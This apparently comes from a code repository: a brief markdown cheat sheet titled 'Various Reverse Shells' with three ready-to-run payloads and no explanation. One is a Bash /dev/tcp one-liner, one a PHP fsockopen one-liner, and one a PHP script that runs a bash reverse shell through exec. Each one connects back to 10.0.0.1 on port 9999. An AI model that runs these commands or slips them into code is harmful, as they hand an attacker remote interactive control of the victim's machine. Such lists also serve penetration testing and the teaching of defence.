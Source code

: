 # Various Reverse Shells

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
##

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
##

```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
##
